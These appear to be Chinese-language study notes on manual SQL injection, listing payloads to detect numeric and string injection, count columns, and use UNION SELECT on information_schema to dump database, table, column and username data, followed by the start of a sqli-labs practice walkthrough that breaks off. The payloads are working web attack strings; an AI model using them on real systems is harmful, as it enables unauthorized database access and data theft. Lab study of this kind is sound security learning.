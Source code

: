 （1）测试是什么类型的注入

* and 1=2 -- a      可用于测试是否存在为数字型注入
* '  判断是否存在单引号注入
* id=1' -- 2    判断是否存在字符型注入

（2）输出当前表中有多少列

* order by 1,2,3.....

（3）判断回显位

* id= 1232'  and union select 1,2,3... -- q
* 注意id的取值为一个不存在的值
* select后的位数是表的列数
* 注意类型

（4）输出所有的数据库，当前数据库

* id= 1232'  and union select 1,(select  group_concat(schema_name) from information_schema.schemata),3... -- q
* database()，schema() 

（5）输出某个库中的所有表的表名

* id= 1232'  and union select 1,(select  group_concat(table_name) from information_schema.tables where table_schema = 'security'),3... -- q

（6）输出某个表的列名

* id= 1232'  and union select 1,(select  group_concat(column_name) from information_schema.columns where table_name = 'security.users'),3... -- q

（7）输出某列数据

* id= 1232'  and union select 1,(select  group_concat(username) from security.users),3... -- q

1.sqlilabs

链接：http://111.231.88.117/sqli_lab/sqli-labs-php7/#fm_imagemap

（1）单引号 字符型注入

* 要求输入id

![截图录屏_选择区域_20200526235216](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20200526235216.png)

* 按直觉输入1

![截图录屏_选择区域_20200526235239](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20200526235239.png)

* 输入`id=1 and 1=2` 发现不是数值型注入

![截图录屏_选择区域_20200526235310](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20200526235310.png)

* 输入`id=1'`

![截图录屏_选择区域_20200526235334](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20200526235334.png)

* 输入注释发现是字符型注入
